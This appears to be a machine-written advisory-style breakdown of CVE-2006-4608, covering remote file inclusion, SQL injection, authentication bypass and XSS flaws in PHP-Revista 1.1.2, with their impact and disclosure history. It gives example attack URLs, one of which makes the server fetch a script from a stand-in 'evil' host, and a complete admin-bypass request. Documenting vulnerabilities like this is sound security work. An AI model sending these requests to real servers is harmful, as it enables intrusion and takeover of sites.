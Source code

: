 Based on the provided content, here's the breakdown of the vulnerabilities related to CVE-2006-4608:

**Vulnerability Details:**

*   **Affected Software:** PHP-Revista 1.1.2
*   **Root Cause:** Multiple vulnerabilities exist due to insecure coding practices in the PHP-Revista application.
*   **Weaknesses/Vulnerabilities:**
    *   **Remote File Inclusion (RFI):** The application is vulnerable to RFI, allowing an attacker to include and execute malicious remote files. This is due to the insecure usage of parameters in the URL.
        *  Example: `http://revista/estilo/[ANY STYLE]/index.php?adodb=http://evil/script`
    *   **SQL Injection (SQLi):** Multiple SQL injection vulnerabilities exist in various PHP files. This is due to improper sanitization of user-supplied data used in SQL queries.
        *   Examples:
            *   `http://revista/estilo/[ANY STYLE]/busqueda_tema.php?id_temas=-1+[SQL]`
            *   `http://revista/estilo/[ANY STYLE]/busqueda.php?cadena='+[SQL]`
            *  `http://revista/estilo/[ANY STYLE]/autor.php?id_autor=-1+[SQL]`
            *   `http://revista/estilo/[ANY STYLE]/lista.php?email='+[SQL]`
            *   `http://revista/estilo/[ANY STYLE]/articulo.php?id_articulo=-1+[SQL]`
    *  **Credentials Bypass:** The application has an authentication bypass vulnerability, allowing an attacker to gain administrative access without proper credentials. This is due to insecure handling of admin parameters.
        *   Example: `http://revista/admin/index.php?ID_ADMIN=1&SUPER_ADMIN=1`
    *   **Cross-Site Scripting (XSS):** The application is vulnerable to XSS attacks, allowing an attacker to inject malicious scripts into web pages. This is due to improper sanitization of user-supplied data that is outputted in HTML pages.
        *   Examples:
            *   `http://revista/estilo/[ANY STYLE]/busqueda.php?cadena=<XSS>`
            *   `http://revista/estilo/[ANY STYLE]/lista.php?email=<XSS>`

*   **Impact of Exploitation:**
    *   **Remote File Inclusion:** An attacker can execute arbitrary code on the server.
    *   **SQL Injection:** An attacker can read, modify, or delete data in the database, or potentially gain control of the server.
    *   **Credentials Bypass:** An attacker can gain full administrative access to the application.
    *   **Cross-Site Scripting:** An attacker can execute malicious scripts in the context of other users' browsers, leading to session hijacking, defacement, or other malicious activities.
*   **Attack Vectors:**
    *   **HTTP GET requests:** The vulnerabilities are exploited by crafting malicious GET requests to specific PHP files with specially crafted parameters.
*   **Required Attacker Capabilities/Position:**
    *   The attacker needs to be able to send HTTP requests to the vulnerable web server. No specific privileged position is needed on the network.

**Additional Notes:**

*   The exploit-db content indicates that these vulnerabilities were discovered by Sirdarckcat from elhacker.net.
*   The provided content also references a post from 2006 on securityfocus that details these vulnerabilities, along with BID 19818 assigned to the original post.
*   The content notes that SecurityFocus created BID 34505 for a repost of the message, although the issues were identified in the original post with BID 19818.
*   The content from attrition.org includes a message about the exploit being a repost, and referencing the earlier security focus post.

**Summary of CVE-2006-4608:**
The information available indicates that CVE-2006-4608 is associated with multiple vulnerabilities in PHP-Revista 1.1.2, including RFI, SQLi, authentication bypass and XSS, all reachable via HTTP GET requests.